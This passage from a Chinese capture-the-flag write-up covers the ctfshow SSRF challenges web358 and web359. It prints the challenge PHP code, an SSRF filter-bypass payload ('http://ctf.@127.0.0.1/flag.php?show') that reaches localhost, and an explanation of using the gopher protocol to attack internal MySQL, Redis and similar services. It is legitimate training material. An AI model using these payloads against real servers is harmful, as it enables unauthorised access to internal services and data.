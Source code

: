 `payload：url=http://r.xxx/flag.php`

## web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

以ctf.开头，以show结尾，同时保证host为本地地址	

`payload：url=http://ctf.@127.0.0.1/flag.php?show`

## web359

hint说打无密码的mysql，那么考虑万能协议Gopher

>
>gopher：gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议。
>
>Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。
>
>gopher协议没有默认端口，所以需要指定web端口，而且需要指定post方法。回车换行使用%0d%0a。注意post参数之间的&分隔符也要进行url编码。

利用点returl：

![image-20220113132558446](image/ctfshow-SSRF(351-360)/image-20220113132558446.png)

![image-20220113132608477](image/ctfshow-SSRF(351-360)/image-20220113132608477.png)
